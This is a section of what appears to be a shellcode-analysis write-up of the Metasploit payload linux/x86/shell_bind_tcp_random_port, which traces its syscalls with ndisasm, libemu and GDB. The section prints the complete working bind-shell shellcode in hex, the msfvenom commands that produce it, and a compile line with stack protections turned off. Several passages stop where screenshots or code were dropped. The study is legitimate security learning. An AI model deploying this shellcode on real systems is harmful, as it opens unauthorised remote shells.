## 5.3 Payload *linux/x86/shell_bind_tcp_random_port*

### Check options
```
msfvenom -p linux/x86/shell_bind_tcp_random_port --list-options
```





There is not any basic option in this case.

For this study we will use the basic command:

```
msfvenom -p linux/x86/shell_bind_tcp_random_port --platform=Linux -a x86 -f c
```

### One-liner for getting shellcode 

The fastest way to get the shellcode in my case was using two pipes, one with 'sed' and a second one with 'paste' command:

```
msfvenom -p linux/x86/shell_bind_tcp_random_port --platform=Linux -a x86 -f c | grep '"' | sed -e 's/\"//g' | paste -sd "" -
```

Using it, we get the shellcode we will use for the study of the payload:




### Ndisasm

Before studying the syscalls, the .nasm code is extracted using Ndisasm:

```
msfvenom -p linux/x86/shell_bind_tcp_random_port --platform=Linux -a x86 -f c | ndisasm -u -
```


Or a little quicker:

```
echo -ne "\x31\xdb\xf7\xe3\xb0\x66\x43\x52\x53\x6a\x02\x89\xe1\xcd\x80\x52\x50\x89\xe1\xb0\x66\xb3\x04\xcd\x80\xb0\x66\x43\xcd\x80\x59\x93\x6a\x3f\x58\xcd\x80\x49\x79\xf8\xb0\x0b\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x41\xcd\x80" | ndisasm -u -
```


Using awk it is possible to get only the part we want and create a .nasm file:

```
echo -e "section .text\nglobal _start \n_start:" > 3.nasm

echo -ne "\x31\xdb\xf7\xe3\xb0\x66\x43\x52\x53\x6a\x02\x89\xe1\xcd\x80\x52\x50\x89\xe1\xb0\x66\xb3\x04\xcd\x80\xb0\x66\x43\xcd\x80\x59\x93\x6a\x3f\x58\xcd\x80\x49\x79\xf8\xb0\x0b\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x41\xcd\x80" | ndisasm -u - | awk '{$2=$2};1' - | cut -d " " -f 3-10 >> 3.nasm
```


### Libemu

In this case Libemu works correctly:

```
echo -ne "\x31\xdb\xf7\xe3\xb0\x66\x43\x52\x53\x6a\x02\x89\xe1\xcd\x80\x52\x50\x89\xe1\xb0\x66\xb3\x04\xcd\x80\xb0\x66\x43\xcd\x80\x59\x93\x6a\x3f\x58\xcd\x80\x49\x79\xf8\xb0\x0b\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x41\xcd\x80" |  ./sctest -vvv -Ss 10000 -G randbind.dot
```



We get the next output:

```
int socket (
     int domain = 2;
     int type = 1;
     int protocol = 0;
) =  14;
int listen (
     int s = 14;
     int backlog = 0;
) =  0;
int accept (
     int sockfd = 14;
     sockaddr_in * addr = 0x00000000 => 
         none;
     int addrlen = 0x00000002 => 
         none;
) =  19;
int dup2 (
     int oldfd = 19;
     int newfd = 14;
) =  14;
int dup2 (
     int oldfd = 19;
     int newfd = 13;
) =  13;
int dup2 (
     int oldfd = 19;
     int newfd = 12;
) =  12;
int dup2 (
     int oldfd = 19;
     int newfd = 11;
) =  11;
int dup2 (
     int oldfd = 19;
     int newfd = 10;
) =  10;
int dup2 (
     int oldfd = 19;
     int newfd = 9;
) =  9;
int dup2 (
     int oldfd = 19;
     int newfd = 8;
) =  8;
int dup2 (
     int oldfd = 19;
     int newfd = 7;
) =  7;
int dup2 (
     int oldfd = 19;
     int newfd = 6;
) =  6;
int dup2 (
     int oldfd = 19;
     int newfd = 5;
) =  5;
int dup2 (
     int oldfd = 19;
     int newfd = 4;
) =  4;
int dup2 (
     int oldfd = 19;
     int newfd = 3;
) =  3;
int dup2 (
     int oldfd = 19;
     int newfd = 2;
) =  2;
int dup2 (
     int oldfd = 19;
     int newfd = 1;
) =  1;
int dup2 (
     int oldfd = 19;
     int newfd = 0;
) =  0;
int execve (
     const char * dateiname = 0x00416fb6 => 
           = "/bin//sh";
     const char * argv[] = [
           = 0xffffffff => 
             none;
     ];
     const char * envp[] = 0x00000000 => 
         none;
) =  0;
```

Finally the PNG picture is created using:

```
dot randbind.dot -T png -o randbind.png
```




### Studying the syscalls

Given we have the nasm code, the first thing to do will be studying the different syscalls. We can do this checking the lines containing "int 0x80" in the code. 

In this case we have five syscalls:


After checking the */usr/include/i386-linux-gnu/asm/unistd_32.h* file, the syscalls seem different to the ones we got using Libemu:

Libeu states the list of syscalls is:

- Syscall 1: socket() - *It creates  an  endpoint  for communication and returns a file descriptor that refers to that endpoint.*

- Syscall 2: listen() - *It marks the socket referred to by sockfd as a passive socket, that is, as a socket that will be used to accept incoming connection  requests using accept(2).*

- Syscall 3: accept() - *It extracts the first connection request on the queue of pending connections for the listening socket, sockfd, creates a new connected socket, and returns a new file descriptor referring to that socket.*

- Syscall 4: dup2() - *It system call creates a copy of the file descriptor oldfd, using the lowest-numbered unused file descriptor for the new descriptor.*

- Syscall 5: execve() - *It executes  the  program pointed to by filename*.


The nasm file states the list of syscalls is:

- Syscall 1 (Value 0x66 or 102 in decimal): socketcall() - *It is a common kernel entry point for the socket system calls*

- Syscall 2 (Value 0x66 or 102 in decimal): socketcall() - *It is a common kernel entry point for the socket system calls*

- Syscall 3 (Value 0x66 or 102 in decimal): socketcall() - *It is a common kernel entry point for the socket system calls*

- Syscall 4 (Value 03f or 63 in decimal): dup2() - *It system call creates a copy of the file descriptor oldfd, using the lowest-numbered unused file descriptor for the new descriptor.*

- Syscall 5 (Value 0xb or 11 in decimal): execve() - *It executes  the  program pointed to by filename*.

So Libemu interprets which is the specific socket call in the first three syscalls.


### Generating the executable

In this third case, it is possible to compile the NASM code and generate a working executable, but it crashes after connecting to the port:


So again, itt is necessary to use the *shellcode.c* file:


It is compiled:

```
gcc -fno-stack-protector -z execstack shellcode.c -o 3
```

An executable named "3" gets generated. It is possible to execute it and check that it works correctly:




Also it is possible to look for interesting strings like this one:




### Study with GDB

We attach the executable in quiet mode, set the disassembly flavor, define the "hook-stop" function, run the program and stop in the main function:



Now, we must jump to the shellcode, so we set a breakpoint in the last 'call eax' instruction visible in the previous screenshot (the previous call instructions show the length of the shellcode).

We continue for one instruction using 'stepi' and the 'disassemble' command shows we have reached the shellcode. All the shellcode with the five syscalls can be read:


We set breakpoint in every one of them:


We reach the first syscall:



We read the man page of socketcall:



And then the values are:

- EAX = 102 => Syscall is socketcall()

- EBX = 1 => 

- ECX = -1073745200 => 

- EDX = 0 => 


We reach the second syscall:



We read the man page of socketcall:


And then the values are:

- EAX = 102 => Syscall is socketcall()

- EBX = 4 => 

- ECX = -1073745208 => 

- EDX = 0 => 


We reach the third syscall:



We read the man page of socketcall:


And then the values are:

- EAX = 102 => Syscall is socketcall()

- EBX = 5 => 

- ECX = -1073745208 => 

- EDX = 0 => 


Now, it is necessary to check which is the port opened and connect to it:




Then, we reach the fourth syscall:


We read the man page of dup2:



And then the values are:

- EAX = 63 => Syscall is dup2()

- EBX = 4 => Old file descriptor

- ECX = 3 => New file descriptor


Later the breakpoint is reached again only changing the ECX value to 2, 1 and then 0.


We reach the fifth syscall:



We read the man page of execve:



And then the values are:

- EAX = 11 => Syscall is execve()

- EBX = -1073745212 => 

- ECX = 0 => 

- EDX = 0 => 


### Update/correct NASM file

Now we can update the nasm code adding the necessary jump:


Finally we can compile the nasm file and check it works correctly:


